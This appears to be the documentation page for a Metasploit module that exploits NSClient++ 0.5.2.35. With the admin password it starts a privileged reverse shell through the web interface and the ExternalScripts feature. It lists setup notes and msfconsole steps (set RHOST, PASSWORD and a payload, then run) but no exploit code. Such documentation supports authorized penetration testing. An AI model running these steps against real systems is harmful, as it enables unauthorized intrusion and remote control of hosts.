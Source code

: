## Description

This module allows an attacker with knowledge of the admin password of NSClient++ 0.5.2.35 to start a privilege reverse shell.
For this module to work, both web interface of NSClient++ and `ExternalScripts`feature
should be enabled.

## Installation

A vulnerable version of NSClient++ can be downloaded from [here]https://nsclient.org/download/). Then you can help yourself with this [installation guide](https://docs.nsclient.org/api/rest/) to complete the installation. Don't forget to enable the web interface and the `ExternalScripts` feature to allow the exploit to work.

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/windows/http/nscp_authenticated_rce`
3. `set RHOST <target_host>`
4. `set PASSWORD <admin_password>` to set the admin password of NSClient++ web interface
5. `check` to check if the targeted NSClient++ is vulnerable
6. `set payload <choose_a_payload>` to set a specific payload to send
7. `run` the module to exploit the vulnerability and start a shell

## Options

**PASSWORD**

Set the PASSWORD of the admin account of NSClient++.
